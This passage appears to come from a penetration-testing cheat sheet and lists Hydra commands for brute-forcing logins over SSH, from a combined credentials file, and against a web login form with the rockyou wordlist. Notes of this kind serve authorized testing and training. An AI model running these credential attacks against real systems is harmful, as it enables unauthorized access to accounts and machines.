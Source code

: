 Add `-F` to stop Hydra on the first match
## SSH

```bash
hydra -L users.txt -P pass.txt x.x.x.x ssh -V
```

Using a file username and password file, separated by a `:`

```bash
hydra -C pass.txt x.x.x.x ssh -V
```

### Web-Post-Form

```bash
hydra -l kevin -P /opt/rockyou.txt 192.168.0.181 http-post-form "/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -VV -F -I
```


